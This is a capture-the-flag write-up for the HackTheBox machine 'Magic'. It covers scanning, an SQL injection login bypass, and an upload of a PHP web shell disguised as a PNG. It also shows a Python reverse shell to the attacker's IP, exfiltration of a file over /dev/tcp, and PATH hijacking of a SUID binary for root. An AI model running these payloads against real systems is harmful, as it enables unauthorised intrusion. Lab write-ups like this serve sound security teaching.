





# HTB - Magic

## Overview


Short description to include any strange things to be dealt with

## Useful Skills and Tools

* description with generic example
* description with generic example

## Enumeration

### Nmap scan

I started my enumeration with an nmap scan of `10.10.10.185`. The options I regularly use are: `-p-`, which is a shortcut which tells nmap to scan all ports, `-sC` is the equivalent to `--script=default` and runs a collection of nmap enumeration scripts against the target, `-sV` does a service scan, and `-oN <name>` saves the output with a filename of `<name>`.

```text
zweilos@kali:~/htb/magic$ nmap -p- -sC -sV -oN magic.nmap 10.10.10.185
Starting Nmap 7.80 ( https://nmap.org ) at 2020-07-29 15:28 EDT
Nmap scan report for 10.10.10.185
Host is up (0.050s latency).
Not shown: 65533 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
|_  256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)                                       
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))                                                     
|_http-server-header: Apache/2.4.29 (Ubuntu)                                                            
|_http-title: Magic Portfolio                                                                           
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 822.01 seconds
```

Only two ports open - 22 SSH and 80 HTTP


### Nikto Scan

```text
Starting nikto scan

- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.185
+ Target Hostname:    10.10.10.185
+ Target Port:        80
+ Start Time:         2020-07-29 15:52:29 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.29 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Apache/2.4.29 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ IP address found in the 'location' header. The IP is "127.0.1.1".
+ OSVDB-630: The web server may reveal its internal or real IP in the Location header via a request to /images over HTTP/1.0. The value is "127.0.1.1".
+ Cookie PHPSESSID created without the httponly flag
+ Web Server returns a valid response with junk HTTP methods, this may cause false positives.
+ DEBUG HTTP verb may show server debugging information. See http://msdn.microsoft.com/en-us/library/e8z01xdh%28VS.80%29.aspx for details.
+ OSVDB-3233: /icons/README: Apache default file found.
+ /login.php: Admin login page/section found.
+ 7863 requests: 0 error(s) and 11 item(s) reported on remote host
+ End Time:           2020-07-29 16:06:00 (GMT-4) (811 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested

Finished nikto scan
```

While testing various things, I found multiple ways forward for this next section.   First, I found the URL to an upload page at `/upload.php` with dirbuster, and I also noticed you can find the URL to the upload page in the home page's source.


### HTTP Verb Tampering

Once I had the URL, I was able to use Burp and use a bypass method called verb tampering. Nikto pointed this out by identifying that the DEBUG method was able to be used on this server.  

```text
DEBUG HTTP verb may show server debugging information.
```

According to a post on the SANS website [https://www.sans.org/blog/http-verb-tampering-in-asp-net/](https://www.sans.org/blog/http-verb-tampering-in-asp-net/), a vulnerability called HTTP Verb tampering can be used to enumerate the source of pages that are supposed to be behind access control methods.  This can be done by sending HTTP methods the server does not understand and is caused by a misconfiguration of the server.



First I requested the `/upload.php` page normally, then captured the request in Burp and sent it to the Repeater tool.  The normal request tried to redirect me to the login page.  From here I changed the HTTP method to DEBUG to see what it would give me.


Using the method DEBUG I was given the source of the `/upload.php` page!  This can also be done against this server by sending arbitrary method names as such `TEST`:



There is a link to login at the bottom left of the home page which leads to the standard admin login page. While checking for for simple SQL injection I put my test command **`'or'a'='a`** in the password field and was logged right in! 


Whatever method used, it leads to the upload page where there is a simple drag & drop file uploader: 


After getting access to the upload page, I crafted an fake image upload with a PNG file header and PHP code in it and send it using Burp Repeater. I got this idea a while back from watching Ippsec's videos on [HackTheBox - Vault](https://www.youtube.com/watch?v=LfbwlPxToBc&t=519s).

[https://www.php.net/manual/en/function.passthru.php](https://www.php.net/manual/en/function.passthru.php) [https://stackoverflow.com/questions/732832/php-exec-vs-system-vs-passthru](https://stackoverflow.com/questions/732832/php-exec-vs-system-vs-passthru)

`<?php passthru($_GET['test']); ?>`

```http
POST /upload.php HTTP/1.1
Host: 10.10.10.185
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Referer: http://10.10.10.185/upload.php
Content-Type: multipart/form-data; boundary=---------------------------25702794813234425341306225294
Content-Length: 392
Connection: close
Cookie: PHPSESSID=vfentnpg4tsu3j7ika4djhsjmv
Upgrade-Insecure-Requests: 1
DNT: 1

-----------------------------25702794813234425341306225294
Content-Disposition: form-data; name="image"; filename="htb1.php.png"
Content-Type: image/png

‰PNG

<?php passthru($_GET['test']); ?>
-----------------------------25702794813234425341306225294
Content-Disposition: form-data; name="submit"

Upload Image
-----------------------------25702794813234425341306225294--
```


_This text may not work by directly copying and pasting. The PNG file header has some other bytes in it that do not render as ASCII and do not copy properly, but Burp is capable of grabbing them if you capture a file upload/download. I sent a test PNG first, then cut out everything but the headers to craft my payload._





`whoami` returns `www-data` 



`pwd` gets me `/var/www/Magic/images/uploads`

```text
http://10.10.10.185/images/uploads/htb1.php.png?test=python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.15.57",8099));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

 gets me...

```text
http://10.10.10.185/images/uploads/htb1.php.png?test=python3%20-c%20%27import%20socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((%2210.10.15.57%22,8099));os.dup2(s.fileno(),0);%20os.dup2(s.fileno(),1);%20os.dup2(s.fileno(),2);p=subprocess.call([%22/bin/sh%22,%22-i%22]);%27
```

sending a non-image file results in this message: `<script>alert('What are you trying to do there?')</script>`

to get burp to catch the request I had to go into the settings and disable the default filter that tells it not to intercept image requests



```python
zweilos@kali:~/Downloads$ nc -lvnp 8099
listening on [any] 8099 ...
connect to [10.10.15.57] from (UNKNOWN) [10.10.10.185] 48146
/bin/sh: 0: can't access tty; job control turned off
$ python -c import pty;pty.spawn('/bin/bash');
/bin/sh: 1: Syntax error: word unexpected (expecting ")")
$ python -c "import pty;pty.spawn('/bin/bash');"
/bin/sh: 1: python: not found
$ python3 -c "import pty;pty.spawn('/bin/bash');"
www-data@ubuntu:/var/www/Magic/images/uploads$ ^Z
[1]+  Stopped                 nc -lvnp 8099
zweilos@kalimaa:~/Downloads$ stty raw -echo
zweilos@kalimaa:~/Downloads$ nc -lvnp 8099

www-data@ubuntu:/var/www/Magic/images/uploads$ export TERM=xterm-256color
www-data@ubuntu:/var/www/Magic/images/uploads$
```

a shell!

## Initial Foothold

### Enumeration as `www-data`

```php
www-data@ubuntu:/var/www/Magic$ cat db.php5
<?php
class Database
{
    private static $dbName = 'Magic' ;
    private static $dbHost = 'localhost' ;
    private static $dbUsername = 'theseus';
    private static $dbUserPassword = 'iamkingtheseus';
    private static $cont  = null;
    public function __construct() {
        die('Init function is not allowed');
    }
    public static function connect()
    {
        // One connection through whole application
        if ( null == self::$cont )
        {
            try
            {
                self::$cont =  new PDO( "mysql:host=".self::$dbHost.";"."dbname=".self::$dbName, self::$dbUsername, self::$dbUserPassword);
            }
            catch(PDOException $e)
            {
                die($e->getMessage());
            }
        }
        return self::$cont;
    }
    public static function disconnect()
    {
        self::$cont = null;
    }
}
```

lets try those creds on SSH...nope

```text
www-data@ubuntu:/$ uname -a
Linux ubuntu 5.3.0-42-generic #34~18.04.1-Ubuntu SMP Fri Feb 28 13:42:26 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
```

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd/netif:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd/resolve:/usr/sbin/nologin
syslog:x:102:106::/home/syslog:/usr/sbin/nologin
messagebus:x:103:107::/nonexistent:/usr/sbin/nologin
_apt:x:104:65534::/nonexistent:/usr/sbin/nologin
uuidd:x:105:111::/run/uuidd:/usr/sbin/nologin
avahi-autoipd:x:106:112:Avahi autoip daemon,,,:/var/lib/avahi-autoipd:/usr/sbin/nologin
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
dnsmasq:x:108:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
rtkit:x:109:114:RealtimeKit,,,:/proc:/usr/sbin/nologin
cups-pk-helper:x:110:116:user for cups-pk-helper service,,,:/home/cups-pk-helper:/usr/sbin/nologin
speech-dispatcher:x:111:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
whoopsie:x:112:117::/nonexistent:/bin/false
kernoops:x:113:65534:Kernel Oops Tracking Daemon,,,:/:/usr/sbin/nologin
saned:x:114:119::/var/lib/saned:/usr/sbin/nologin
pulse:x:115:120:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
avahi:x:116:122:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
colord:x:117:123:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
hplip:x:118:7:HPLIP system user,,,:/var/run/hplip:/bin/false
geoclue:x:119:124::/var/lib/geoclue:/usr/sbin/nologin
gnome-initial-setup:x:120:65534::/run/gnome-initial-setup/:/bin/false
gdm:x:121:125:Gnome Display Manager:/var/lib/gdm3:/bin/false
theseus:x:1000:1000:Theseus,,,:/home/theseus:/bin/bash
sshd:x:123:65534::/run/sshd:/usr/sbin/nologin
mysql:x:122:127:MySQL Server,,,:/nonexistent:/bin/false
```

only `theseus` and `root` can login what is this whoopsie process? [https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-11484](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2019-11484)

## Road to User

### Further enumeration

### Finding user creds

```text
tcp        0      0 127.0.0.1:631           0.0.0.0:*               LISTEN      -                   
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -
```

There is a `mysql` service user, port 3306 is open...seems like MySQL is running! NExt I tried to find the executable files related to it to see how to get into the database.

```text
www-data@ubuntu:/var/www/Magic/images/uploads$ find / -name mysql* -executable 2>/dev/null
/usr/sbin/mysqld
/usr/share/php7.4-mysql/mysql
/usr/share/doc/mysql-server
/usr/share/doc/mysql-common
/usr/share/doc/mysql-server-core-5.7
/usr/share/doc/mysql-client-core-5.7
/usr/share/doc/mysql-client-5.7
/usr/share/doc/mysql-server-5.7
/usr/share/mysql-common
/usr/share/mysql
/usr/share/mysql/mysqld_multi.server
/usr/share/mysql/mysql-systemd-start
/usr/share/php7.3-mysql/mysql
/usr/share/php7.0-mysql/mysql
/usr/bin/mysqloptimize
/usr/bin/mysqldump
/usr/bin/mysqladmin
/usr/bin/mysqlshow
/usr/bin/mysqld_safe
/usr/bin/mysqlbinlog
/usr/bin/mysqldumpslow
/usr/bin/mysqlcheck
/usr/bin/mysql_ssl_rsa_setup
/usr/bin/mysqlimport
/usr/bin/mysql_tzinfo_to_sql
/usr/bin/mysql_upgrade
/usr/bin/mysqlslap
/usr/bin/mysql_secure_installation
/usr/bin/mysqlrepair
/usr/bin/mysqlanalyze
/usr/bin/mysql_config_editor
/usr/bin/mysqld_multi
/usr/bin/mysql_plugin
/usr/bin/mysql_embedded
/usr/bin/mysql_install_db
/usr/bin/mysqlpump
/usr/bin/mysqlreport
/usr/lib/mysql
/run/mysqld
/run/mysqld/mysqld.sock
/sys/fs/cgroup/pids/system.slice/mysql.service
/sys/fs/cgroup/devices/system.slice/mysql.service
/sys/fs/cgroup/systemd/system.slice/mysql.service
/sys/fs/cgroup/unified/system.slice/mysql.service
/etc/init.d/mysql
/etc/mysql
/etc/mysql/mysql.conf.d
/var/lib/app-info/icons/ubuntu-bionic-universe/64x64/mysql-workbench_mysql-workbench.png
/var/lib/dpkg/info/mysql-server-5.7.prerm
/var/lib/dpkg/info/mysql-server-5.7.postinst
/var/lib/dpkg/info/mysql-common.prerm
/var/lib/dpkg/info/mysql-common.postinst
/var/lib/dpkg/info/mysql-server-5.7.config
/var/lib/dpkg/info/mysql-server-5.7.preinst
/var/lib/dpkg/info/mysql-common.postrm
/var/lib/dpkg/info/mysql-common.preinst
/var/lib/dpkg/info/mysql-server-5.7.postrm
/var/lib/mysql-upgrade
```

There were lots of programs installed related to mysql in `/usr/bin`. The one called `mysqldump` sounded particularly interesting. A quick search led me to the official documentation at [https://dev.mysql.com/doc/refman/8.0/en/mysqldump.html](https://dev.mysql.com/doc/refman/8.0/en/mysqldump.html)

> The mysqldump client utility performs logical backups, producing a set of SQL statements that can be executed to reproduce the original database object definitions and table data. It dumps one or more MySQL databases for backup or transfer to another SQL server. The mysqldump command can also generate output in CSV, other delimited text, or XML format.

Sounds like a nice and easy way to quickly dump the database! The file `db.php5` in the web directory told me the database name was `Magic` and also gave me the username and password.

```text
www-data@ubuntu:/usr/bin$ mysqldump --databases Magic -u theseus -p            
Enter password: 
-- MySQL dump 10.13  Distrib 5.7.29, for Linux (x86_64)u theseus -p imamkingthese
--
-- Host: localhost    Database: Magic
-- ------------------------------------------------------
-- Server version       5.7.29-0ubuntu0.18.04.1

/*!40101 SET @OLD_CHARACTER_SET_CLIENT=@@CHARACTER_SET_CLIENT */;
/*!40101 SET @OLD_CHARACTER_SET_RESULTS=@@CHARACTER_SET_RESULTS */;
/*!40101 SET @OLD_COLLATION_CONNECTION=@@COLLATION_CONNECTION */;
/*!40101 SET NAMES utf8 */;
/*!40103 SET @OLD_TIME_ZONE=@@TIME_ZONE */;
/*!40103 SET TIME_ZONE='+00:00' */;
/*!40014 SET @OLD_UNIQUE_CHECKS=@@UNIQUE_CHECKS, UNIQUE_CHECKS=0 */;
/*!40014 SET @OLD_FOREIGN_KEY_CHECKS=@@FOREIGN_KEY_CHECKS, FOREIGN_KEY_CHECKS=0 */;
/*!40101 SET @OLD_SQL_MODE=@@SQL_MODE, SQL_MODE='NO_AUTO_VALUE_ON_ZERO' */;
/*!40111 SET @OLD_SQL_NOTES=@@SQL_NOTES, SQL_NOTES=0 */;

--
-- Current Database: `Magic`
--

CREATE DATABASE /*!32312 IF NOT EXISTS*/ `Magic` /*!40100 DEFAULT CHARACTER SET latin1 */;

USE `Magic`;

--
-- Table structure for table `login`
--

DROP TABLE IF EXISTS `login`;
/*!40101 SET @saved_cs_client     = @@character_set_client */;
/*!40101 SET character_set_client = utf8 */;
CREATE TABLE `login` (
  `id` int(6) NOT NULL AUTO_INCREMENT,
  `username` varchar(50) NOT NULL,
  `password` varchar(100) NOT NULL,
  PRIMARY KEY (`id`),
  UNIQUE KEY `username` (`username`)
) ENGINE=InnoDB AUTO_INCREMENT=2 DEFAULT CHARSET=latin1;
/*!40101 SET character_set_client = @saved_cs_client */;

--
-- Dumping data for table `login`
--

LOCK TABLES `login` WRITE;
/*!40000 ALTER TABLE `login` DISABLE KEYS */;
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
/*!40000 ALTER TABLE `login` ENABLE KEYS */;
UNLOCK TABLES;
/*!40103 SET TIME_ZONE=@OLD_TIME_ZONE */;

/*!40101 SET SQL_MODE=@OLD_SQL_MODE */;
/*!40014 SET FOREIGN_KEY_CHECKS=@OLD_FOREIGN_KEY_CHECKS */;
/*!40014 SET UNIQUE_CHECKS=@OLD_UNIQUE_CHECKS */;
/*!40101 SET CHARACTER_SET_CLIENT=@OLD_CHARACTER_SET_CLIENT */;
/*!40101 SET CHARACTER_SET_RESULTS=@OLD_CHARACTER_SET_RESULTS */;
/*!40101 SET COLLATION_CONNECTION=@OLD_COLLATION_CONNECTION */;
/*!40111 SET SQL_NOTES=@OLD_SQL_NOTES */;

-- Dump completed on 2020-08-03 18:24:24
```

The table named `login` had another set of credentials, this time for `admin:Th3s3usW4sK1ng`. These credentials did not work for the Magic database. It did however let me `su` to user `theseus`!

### User.txt

```text
theseus@ubuntu:~$ ls
Desktop    Downloads  Pictures  Templates  Videos
Documents  Music      Public    user.txt
theseus@ubuntu:~$ cat user.txt
123d2363e2d4de4224a39b27400bf87d
```

## Path to Power \(Gaining Administrator Access\)

### Enumeration as User

```text
theseus@ubuntu:/dev/shm$ id
uid=1000(theseus) gid=1000(theseus) groups=1000(theseus),100(users)
```

user group is abnormal...what files can this user access?

```text
theseus@ubuntu:/dev/shm$ find / -group users 2>/dev/null
/bin/sysinfo
```

Only one file...supicious...and linpeas.sh shows /bin/sysinfo as suid pspy shows

```text
2020/08/03 18:38:32 CMD: UID=122  PID=1138   | /usr/sbin/mysqld --daemonize --pid-file=/run/mysqld/mysqld.pid                                                                                                 
2020/08/03 18:38:32 CMD: UID=0    PID=1125   | gdm-session-worker [pam/gdm-launch-environment] 
2020/08/03 18:38:32 CMD: UID=0    PID=1115   | /usr/sbin/gdm3 
2020/08/03 18:38:32 CMD: UID=0    PID=1111   | /usr/sbin/sshd -D 
2020/08/03 18:38:32 CMD: UID=113  PID=1110   | /usr/sbin/kerneloops 
2020/08/03 18:38:32 CMD: UID=113  PID=1106   | /usr/sbin/kerneloops --test 
2020/08/03 18:38:32 CMD: UID=0    PID=11     | 
2020/08/03 18:38:32 CMD: UID=112  PID=1081   | /usr/bin/whoopsie -f 
...snipped...
2020/08/03 18:39:08 CMD: UID=0    PID=32543  | /bin/sh /usr/sbin/phpquery -V 
2020/08/03 18:39:08 CMD: UID=0    PID=32542  | /bin/sh /usr/sbin/phpquery -V 
2020/08/03 18:39:08 CMD: UID=0    PID=32541  | /bin/sh /usr/sbin/phpquery -V 
2020/08/03 18:39:08 CMD: UID=0    PID=32545  | php7.4 -c /etc/php/7.4/apache2/php.ini -d error_reporting='~E_ALL' -r foreach(ini_get_all("session") as $k => $v) echo "$k=".$v["local_value"]."\n";           
2020/08/03 18:39:08 CMD: UID=0    PID=32546  | /bin/sh -e /usr/lib/php/sessionclean 
2020/08/03 18:39:08 CMD: UID=???  PID=32552  | ???
2020/08/03 18:39:08 CMD: UID=???  PID=32557  | ???
2020/08/03 18:39:08 CMD: UID=???  PID=32555  | ???
2020/08/03 18:39:08 CMD: UID=0    PID=32558  | php7.4 -c /etc/php/7.4/cli/php.ini -d error_reporting='~E_ALL' -r foreach(ini_get_all("session") as $k => $v) echo "$k=".$v["local_value"]."\n";               
2020/08/03 18:39:08 CMD: UID=0    PID=32559  | /bin/sh -e /usr/lib/php/sessionclean 
2020/08/03 18:39:08 CMD: UID=0    PID=32564  | 
2020/08/03 18:39:08 CMD: UID=0    PID=32562  | /bin/sh -e /usr/lib/php/sessionclean 
2020/08/03 18:39:08 CMD: UID=0    PID=32567  | sed -ne s/^session\.gc_maxlifetime=\(.*\)$/\1/p 
2020/08/03 18:39:08 CMD: UID=0    PID=32565  | /bin/sh -e /usr/lib/php/sessionclean 
2020/08/03 18:39:08 CMD: UID=0    PID=32571  | php7.3 -c /etc/php/7.3/apache2/php.ini -d error_reporting='~E_ALL' -r foreach(ini_get_all("session") as $k => $v) echo "$k=".$v["local_value"]."\n";           
2020/08/03 18:39:08 CMD: UID=0    PID=32581  | 
2020/08/03 18:39:08 CMD: UID=0    PID=32584  | php7.3 -c /etc/php/7.3/cli/php.ini -d error_reporting='~E_ALL' -r foreach(ini_get_all("session") as $k => $v) echo "$k=".$v["local_value"]."\n";               
2020/08/03 18:39:08 CMD: UID=0    PID=32587  | sed -ne s/^session\.save_handler=\(.*\)$/\1/p 
2020/08/03 18:39:08 CMD: UID=0    PID=32585  | /bin/sh -e /usr/lib/php/sessionclean 
2020/08/03 18:39:08 CMD: UID=0    PID=32591  | /bin/sh -e /usr/lib/php/sessionclean 
2020/08/03 18:39:08 CMD: UID=0    PID=32597  | php5.6 -c /etc/php/5.6/apache2/php.ini -d error_reporting='~E_ALL' -r foreach(ini_get_all("session") as $k => $v) echo "$k=".$v["local_value"]."\n";           
2020/08/03 18:39:08 CMD: UID=???  PID=32600  | ???
2020/08/03 18:39:08 CMD: UID=???  PID=32598  | ???
2020/08/03 18:39:08 CMD: UID=???  PID=32603  | 
2020/08/03 18:39:08 CMD: UID=0    PID=32601  | 
2020/08/03 18:39:08 CMD: UID=0    PID=32604  | 
2020/08/03 18:39:08 CMD: UID=0    PID=32610  | php5.6 -c /etc/php/5.6/cli/php.ini -d error_reporting='~E_ALL' -r foreach(ini_get_all("session") as $k => $v) echo "$k=".$v["local_value"]."\n";               
2020/08/03 18:39:08 CMD: UID=0    PID=32613  | sed -ne s/^session\.save_handler=\(.*\)$/\1/p 
2020/08/03 18:39:08 CMD: UID=???  PID=32612  | ???
2020/08/03 18:39:08 CMD: UID=0    PID=32611  | /bin/sh -e /usr/lib/php/sessionclean 
2020/08/03 18:39:08 CMD: UID=???  PID=32616  | ???
2020/08/03 18:39:08 CMD: UID=???  PID=32614  | ???
2020/08/03 18:39:08 CMD: UID=???  PID=32619  | ???
2020/08/03 18:39:08 CMD: UID=???  PID=32617  | ???
2020/08/03 18:39:08 CMD: UID=0    PID=32623  | pidof apache2 php7.4 apache2 php7.3 apache2 php5.6
```

I didn't know there was a sysinfo program for linux so I searched for privesc related to that. It turns out there was a vulnerability in such a program, back in 2018.

```text
theseus@ubuntu:/dev/shm$ sysinfo
====================Hardware Info====================
H/W path           Device      Class      Description
=====================================================
                               system     VMware Virtual Platform
/0                             bus        440BX Desktop Reference Platform
/0/0                           memory     86KiB BIOS
/0/1                           processor  AMD EPYC 7401P 24-Core Processor
/0/1/0                         memory     16KiB L1 cache
/0/1/1                         memory     16KiB L1 cache
/0/1/2                         memory     512KiB L2 cache
/0/1/3                         memory     512KiB L2 cache
/0/2                           processor  AMD EPYC 7401P 24-Core Processor
/0/28                          memory     System Memory
/0/28/0                        memory     4GiB DIMM DRAM EDO
...snipped...  

/0/46/0.0.0        /dev/cdrom  disk       VMware IDE CDR00
/1                             system     

====================Disk Info====================
Disk /dev/loop0: 54.7 MiB, 57294848 bytes, 111904 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes


...snipped...
Disk /dev/loop11: 160.2 MiB, 167931904 bytes, 327992 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes

====================CPU Info====================
processor       : 0
vendor_id       : AuthenticAMD
cpu family      : 23
model           : 1
model name      : AMD EPYC 7401P 24-Core Processor
...snipped...

address sizes   : 43 bits physical, 48 bits virtual
power management:


====================MEM Usage=====================
              total        used        free      shared  buff/cache   available
Mem:           3.8G        665M        892M         10M        2.3G        2.9G
Swap:          947M          0B        947M
```

however this program seemed to be running a few other commands. I recognized the output from the last part under "Mem Usage" as from the program `free`.

```text
theseus@ubuntu:/dev/shm$ free
              total        used        free      shared  buff/cache   available
Mem:        4030648      680836      914544       10444     2435268     3049920
Swap:        969960           0      969960
```

Pretty much the same output!

```text
theseus@ubuntu:/dev/shm$ free -h
              total        used        free      shared  buff/cache   available
Mem:           3.8G        668M        888M         10M        2.3G        2.9G
Swap:          947M          0B        947M
```

while trying to get the help for the `free` program I stumbled upon the right flag to match the exact output from `sysinfo`. from the man page:

```text
-h, --human
              Show  all  output fields automatically scaled to shortest three digit unit and display
              the units of print out.  Following units are used.

                B = bytes
                Ki = kibibyte
                Mi = mebibyte
                Gi = gibibyte
                Ti = tebibyte
                Pi = pebibyte
```

These units of measurement are based on 1024 rather than 1000. Storage is created using these measurements, so it is more accurate to the physical hardware. Marketing departments like to round this number to 1000 and use the standard kilo-, mega-, and giga-, etc. because it makes the storage size seem bigger, without actually lying! This is why your "500GB" hard drive only shows 465.661287 \(or so\) in the OS. Sneaky...

hint: you can use the Bing in-search calculator to convert between the two measurements by typing `convert 500GB to gibibytes`.

I decided to exfiltrate the `sysinfo` program see how it worked. `theseus@ubuntu:/dev/shm$ cat /bin/sysinfo > /dev/tcp/10.10.15.57/8099`



By examining the program sysinfo in `ghidra` I could see that it called multiple other programs, similar to a bash script. The problem with this program was that it called these external programs only by name, and did not use the full absolute paths. This can allow a malicious attacker \(or even a friendly neighborhood security researcher!\) to create their own program in a folder that exists in the PATH earlier than the real one \(or one could simply prepend a folder of their choosing to the PATH environment variable!\)

`lshw, fdisk, free, cat /proc/cpuinfo`

I decided to create my own `free` file, which hosted my reverse shell from earlier to see if I could get `sysinfo` to run it as `root`.  
I had to add my working folder to the PATH, and then `theseus@ubuntu:/tmp$ export PATH=/dev/shm:$PATH`

I also had to make sure to make the file was executable by root \(`+x` makes it executable for everyone unless you specify a UGO category\).  
`theseus@ubuntu:/tmp$ chmod +x free`

### Getting a shell

### Root.txt

```text
root@ubuntu:/root# cat root.txt
cat root.txt
80e2d752b4d0608b8d2f896827290f37
```

and here is the sysinfo binary code:

```text
root@ubuntu:/root# cat info.c
cat info.c
#include <unistd.h>
#include <iostream>
#include <cassert>
#include <cstdio>
#include <iostream>
#include <memory>
#include <stdexcept>
#include <string>
#include <array>

using namespace std;

std::string exec(const char* cmd) {
    std::array<char, 128> buffer;
    std::string result;
    std::unique_ptr<FILE, decltype(&pclose)> pipe(popen(cmd, "r"), pclose);
    if (!pipe) {
        throw std::runtime_error("popen() failed!");
    }
    while (fgets(buffer.data(), buffer.size(), pipe.get()) != nullptr) {
        result += buffer.data();
    }
    return result;
}

int main() {
    setuid(0);
    setgid(0);
    cout << "====================Hardware Info====================" << endl;
    cout << exec("lshw -short") << endl;
    cout << "====================Disk Info====================" << endl;
    cout << exec("fdisk -l") << endl;
    cout << "====================CPU Info====================" << endl;
    cout << exec("cat /proc/cpuinfo") << endl;
    cout << "====================MEM Usage=====================" << endl;
    cout << exec("free -h");
    return(0);
}
```

Thanks to [`TRX`](https://www.hackthebox.eu/home/users/profile/31190) for .

If you like this content and would like to see more, please consider [buying me a coffee](https://www.buymeacoffee.com/zweilosec)!

